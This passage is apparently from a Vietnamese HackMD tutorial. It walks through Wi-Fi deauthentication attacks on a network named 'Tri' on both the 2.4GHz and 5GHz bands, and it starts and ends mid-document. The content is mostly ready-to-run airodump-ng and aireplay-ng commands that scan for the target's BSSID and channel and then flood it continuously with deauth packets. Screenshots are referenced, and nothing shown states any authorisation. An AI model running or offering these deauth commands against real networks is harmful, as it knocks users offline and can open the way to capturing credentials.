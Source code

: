 Kiểm tra lại các adapter bằng lệnh `iwconfig`:

![iwconfig-check-after-switch-mode](https://hackmd.io/_uploads/rJz5tF2iyg.png)

> Lệnh airmon-ng sẽ thêm đuôi mon vào cuối tên adapter

Trước tiên, ta tiến hành deauth mạng 2.4GHz với adapter `wlx784476bf1924` (phy2). Đầu tiên ta lắng nghe toàn bộ mạng gần đây:

```
airodump-ng wlx784476bf1924
```

![airodump-list-2.4ghz](https://hackmd.io/_uploads/r16x9tnjkx.png)

Thấy wifi tên `Tri` với BSSID là `30:60:0A:D9:7F:31` và ở channel 6, do đó ta lắng nghe lại với các thông tin như trên để thiết lập adapter với tần số (frequency) tương ứng channel 6:

```
airodump-ng --bssid 30:60:0A:D9:7F:31 -c 6 wlx784476bf1924
```

![airodump-list-2.4-Tri](https://hackmd.io/_uploads/rJz-9Fnokl.png)

Mở terminal khác lên và lúc này ta tiến hành deauth wifi đó bằng công cụ aireplay-ng
    
```
aireplay-ng -0 0 -a 30:60:0A:D9:7F:31 wlx784476bf1924
```

![aireplay-deauth-2.4](https://hackmd.io/_uploads/HkQK9FhsJx.png)

Tương tự với băng tầng 5GHz nhưng lần này với tham số `--band a`

```
airodump-ng --band a wlp0s20f3mon
```

![airodump-list-5ghz](https://hackmd.io/_uploads/rkpIiKnjJx.png)

Với ESSID là `Tri` và địa chỉ MAC khác `30:60:0A:D9:7F:39` cũng như channel khác 36, ta tiến hành listen với các tham số đó để thiết lập channel cho adapter:

```
airodump-ng --bssid 30:60:0A:D9:7F:39 -c 36 wlp0s20f3mon
```

![airodump-list-5-Tri](https://hackmd.io/_uploads/SkOsiY3okl.png)

Cuối cùng ta tiến hành deauth wifi Tri ở băng tần 5GHz:

```
aireplay-ng -0 0 -a 30:60:0A:D9:7F:39 wlp0s20f3mon
```

![image](https://hackmd.io/_uploads/BkUM3FnsJe.png)

Vì đây là adapter deauth băng tầng 5GHZ nên phải đảm bảo Regulatory Domain vẫn cho phép inject deauth packet ở channel 36:
